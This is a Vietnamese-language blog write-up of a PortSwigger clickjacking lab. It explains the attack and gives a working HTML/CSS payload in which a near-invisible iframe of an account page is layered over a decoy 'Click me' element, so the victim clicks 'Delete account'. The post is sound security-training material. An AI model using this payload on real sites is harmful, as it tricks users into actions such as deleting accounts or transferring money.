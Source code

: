 ```yaml
---
title: "[PortSwigger Lab] - Clickjacking"
description: Solution of Clickjacking Lab
date: 2025-06-23 20:34:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, clickjacking]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-23-portswigger-lab-clickjacking/clickjacking.png
    alt: Clickjacking
---
```


## Introduction
---
### **Clickjacking**
**Clickjacking** (tấn công đánh lừa người dùng nhấp chuột) là kỹ thuật lừa người dùng bấm vào một thành phần thật trên trang web khác mà họ không hề hay biết, bằng cách che giấu nội dung thật sau lớp hiển thị giả mạo **(decoy)**.

### How users are fooled
1. Kẻ tấn công tạo một trang web mồi **(decoy site)** với lời dụ dỗ như `"Bấm để nhận quà"`.
2. Đặt một **iframe** vô hình chứa trang thật đè lên vị trí nút mà người dùng sẽ bấm.
3. Khi người dùng bấm vào nút đó, thực tế là họ đã thực hiện hành động thật trên trang web đang đăng nhập (ví dụ: `chuyển tiền`, `xóa tài khoản`,...).

## Solve Clickjacking Lab
---
### Lab: Basic clickjacking with CSRF token protection
- Login bằng account **wiener**, ta thấy nút **Delete account**

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.000001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:70px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a12009203c03c94824a673e0038006f.web-security-academy.net/my-account"></iframe>
```
- Tạo **iframe** để nhúng một tài liệu khác trong tài liệu **HTML** hiện tại, ở đây là nhúng `/account`
- Tạo thẻ `<div>Click me</div>` để lừa người dùng **click** vào nhưng `z-index: 1`, nhỏ hơn `z-index: 2` của **iframe** nên thứ thật sự **click** là phần tử trên **iframe** 
- Tuy **iframe** nằm lớp trên nhưng đã được làm mờ bởi thuộc tính `opacity: 0.000001` nên người dùng chỉ thấy `<div>Click me</div>`